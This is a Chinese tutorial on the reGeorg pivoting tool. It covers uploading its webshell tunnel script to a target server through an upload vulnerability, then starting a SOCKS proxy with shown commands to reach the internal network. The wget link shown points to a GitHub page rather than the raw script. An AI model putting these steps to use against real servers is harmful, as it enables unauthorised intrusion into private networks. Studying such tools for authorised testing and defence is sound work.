 
## reGeorg

reGeorg 的前身是2008年 SensePost 在 BlackHat USA 2008 的 reDuh 延伸与扩展。  
reGeorg是reDuh的继承者，利用了会话层的socks5协议，相比较于reDuh效率更高一些。  
关于通过reGeorg建立HTTP隧道的作用体现在，当我们能通过外网访问服务器A，但是我们并不能与位于内网的主机交互，这时reGeorg就派上了用场，假设此时我们拿到了服务器A的webshell，但是该内网主机的icmp、DNS、tcp和udp协议等都不能出网，唯一的数据通道是webshell搭建正向代理。  
所以在公网能访问的服务器A上安装reGeorg，它就在攻击者与内网主机之间充当一个转发的角色，从而达到攻击者与内网的信息交互。

项目地址：[GitHub - sensepost/reGeorg: The successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.](https://github.com/sensepost/reGeorg)


==向目标机器上传脚本==

reGeorg提供了PHP、ASPX、JSP脚本
- https://github.com/sensepost/reGeorg/blob/master/tunnel.aspx
- https://github.com/sensepost/reGeorg/blob/master/tunnel.ashx
- https://github.com/sensepost/reGeorg/blob/master/tunnel.js
- https://github.com/sensepost/reGeorg/blob/master/tunnel.jsp
- https://github.com/sensepost/reGeorg/blob/master/tunnel.php
- https://github.com/sensepost/reGeorg/blob/master/tunnel.nosocket.php
- https://github.com/sensepost/reGeorg/blob/master/tunnel.tomcat.5.jsp

首先将reGeorg服务端脚本利用上传漏洞或者其他方法上传到目标服务器中
访问脚本路径，显示“Georg says, 'All seems fine'”，表示脚本运行正常

==攻击机启动代理服务==

获取服务脚本
```
wget https://github.com/sensepost/reGeorg/blob/master/reGeorgSocksProxy.py
```
访问成功后，运行命令启动代理服务
```
python2 reGeorgSocksProxy.py -p 9999 -u http://target-site.com/georg.php

python2 reGeorgSocksProxy.py -p 9999 -k yourpassword -u http://target-site.com/georg.php
```

```
$ reGeorgSocksProxy.py [-h] [-l] [-p] [-r] -u  [-v]

可选参数:
-h, --help        显示帮助信息并退出
-l, --listen-on   默认监听地址
-p, --listen-port 指定监听端口
-r, --read-buff   本地读缓冲区, 每个帖子发送的最大数据
-u, --url         包含隧道脚本的url
-v, --verbose     详细输出[INFO|DEBUG]
```
出现logo字符画说明攻击机正常监听。

由于reGeorg是基于socks5,本地还需安装一个socks5代理工具作为客户端工具，如Proxifier（Windows平台）、FoxyProxy（Firefox插件）、proxychains（Linux平台）
PS:NMap不支持socks代理，请使用proxychains
